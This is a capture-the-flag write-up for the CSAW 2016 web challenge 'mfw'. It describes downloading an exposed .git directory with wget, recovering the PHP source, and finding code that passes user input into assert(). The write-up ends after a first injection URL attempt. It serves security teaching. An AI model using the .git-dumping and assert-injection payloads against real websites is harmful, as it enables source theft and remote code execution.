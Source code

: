 # CSAW 2016 Quals
# mfw 
#### Cassandra Stavros -- USF Whitehatter's Computer Security Club
#### web -- 125 points
## Description

Hey, I made my first website today. It's pretty cool and web7.9.

http://web.chal.csaw.io:8000/

## Solution
The website gives us the following information:
I wrote this website all by myself in under a week!

I used:

* Git
* PHP
* Bootstrap
---
From the html source code, we can see that there is a hidden flag.php page:
![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804797/22dd372c-81ce-11e6-96b0-a034f3d2d970.jpg)

The website author also hints that he used the above sources to create the website. A quick check of the challenge website reveals that they used github as the source control repository. We can use the publically exposed .git/ directory to retreive the website source code:

    http://web.chal.csaw.io:8000/.git/

Information security professionals warn that publicly revealing a website's source code leaves it open to vulnerabilities (https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/).

We can use this publically exposed .git/ directory to retreive the website source code.
We used `wget` to download that .git/ directory (or use curl for Mac users):

    wget --mirror -I .git http://web.chal.csaw.io:8000/.git/
---
Now that we have the .git/ directory, we can explore the files in the Git repository. 

By typing in the following command we can get the status of proposed and deleted changes:

    $ git status | head -n 10
    
Which retrieves the following file statuses:

    deleted:    index.php
    deleted:    templates/about.php
    deleted:    templates/contact.php
    deleted:    templates/flag.php
    deleted:    templates/home.php
---

we ran `git checkout -- ` to obtain the source files from the git repo

Next, we looked  at the current files in the directory:

    $ ls

Which shows that the following files exist:

    index.php
    templates
---

We examined the index.php file and found that it used assert:

    <?php

    if (isset($_GET['page'])) {
	    $page = $_GET['page'];
    } else {
	    $page = "home";
    }

   $file = "templates/" . $page . ".php";

    // I heard '..' is dangerous!
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

    // TODO: Make this look nice
    assert("file_exists('$file')") or die("That file doesn't exist!");

Per aaraonasterling on StackOverflow: 
>The rule of thumb which is applicable across most languages (all that I vaguely know) is that an assert is used to assert that a >condition is always true whereas an if is appropriate if it is conceivable that it will sometimes fail. (http://stackoverflow.com/questions/4516419/should-i-be-using-assert-in-my-php-code#4516444)

With this in mind, we knew the way to capture the flag was to use `assert` to our advantage. First we tried some system commands through the browser, such as `http://web.chal.csaw.io:8000/?page=home%27!=0);//` and retrieved the "Detected hacking attempt!" web page.

---    


